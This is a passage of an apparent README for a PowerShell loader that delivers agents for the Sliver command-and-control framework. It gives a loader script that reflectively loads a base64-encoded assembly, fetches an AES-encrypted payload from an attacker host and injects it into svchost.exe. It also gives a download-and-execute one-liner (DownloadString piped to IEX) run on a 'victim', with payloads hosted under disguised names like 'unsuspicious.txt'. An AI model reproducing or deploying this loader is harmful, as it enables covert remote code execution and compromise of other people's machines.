![Convert key to hex](./doc/img/cyberchef002.png)

Finally coppy the converted values to the script as in [loader.ps1](https://github.com/Cyb3rDudu/SliverLoader/blob/main/loader.ps1).

```powershell
$encodeStr = "TVqQAAMAAAAEAAAA..."

$decodeStr = [System.Convert]::FromBase64String($encodeStr)
[System.Reflection.Assembly]::Load($decodeStr)
$url = "https://192.168.X.X:8443/test.woff"
$TargetBinary = "svchost.exe"
[byte[]]$AESKey = 0x44,0x28,0x47,0x2b,0x4b,0x62,0x50,0x65,0x53,0x68,0x56,0x6d,0x59,0x71,0x33,0x74,0x36,0x76,0x39,0x79,0x24,0x42,0x26,0x45,0x29,0x48,0x40,0x4d,0x63,0x51,0x66,0x54
[byte[]]$AESIV = 0x38,0x79,0x2f,0x42,0x3f,0x45,0x28,0x47,0x2b,0x4b,0x62,0x50,0x65,0x53,0x68,0x56

$CompressionAlgorithm = "deflate9"
[Sl1verLoader.Program]::DownloadAndExecute($url,$TargetBinary,$CompressionAlgorithm,$AESKey,$AESIV)
```
## Deployment

The powershell loader is hosted on a webserver as `.txt` file e.g. `unsuspicious.txt`.
On the victim, the following command executes the download and staging of the agent which will result in an incoming session in sliver.
```Powershell
(New-Object System.Net.WebClient).DownloadString('https://some-server/unsuspicious.txt') | IEX)
```
![Catch the session with sliver](./doc/img/sliver002.png)

